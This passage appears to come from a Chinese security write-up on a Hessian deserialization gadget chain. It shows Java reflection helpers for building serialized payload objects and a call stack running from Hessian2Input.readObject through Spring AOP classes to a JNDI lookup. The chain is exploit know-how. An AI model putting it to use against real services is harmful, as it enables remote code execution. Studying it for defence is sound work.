 ```bash
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes,
                                                Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }

    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```

#### 函数调用栈

```bash
lookup:417, InitialContext (javax.naming)
doInContext:155, JndiTemplate$1 (org.springframework.jndi)
execute:87, JndiTemplate (org.springframework.jndi)
lookup:152, JndiTemplate (org.springframework.jndi)
lookup:179, JndiTemplate (org.springframework.jndi)
lookup:95, JndiLocatorSupport (org.springframework.jndi)
doGetType:228, SimpleJndiBeanFactory (org.springframework.jndi.support)
getType:184, SimpleJndiBeanFactory (org.springframework.jndi.support)
getOrder:136, BeanFactoryAspectInstanceFactory (org.springframework.aop.aspectj.annotation)
getOrder:223, AbstractAspectJAdvice (org.springframework.aop.aspectj)
getOrder:81, AspectJPointcutAdvisor (org.springframework.aop.aspectj)
toString:151, AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder (org.springframework.aop.aspectj.autoproxy)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
equals:104, HotSwappableTargetSource (org.springframework.aop.target)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
main:79, PartiallyComparableAdvisorHolderHessian (org.dili.hessian)
```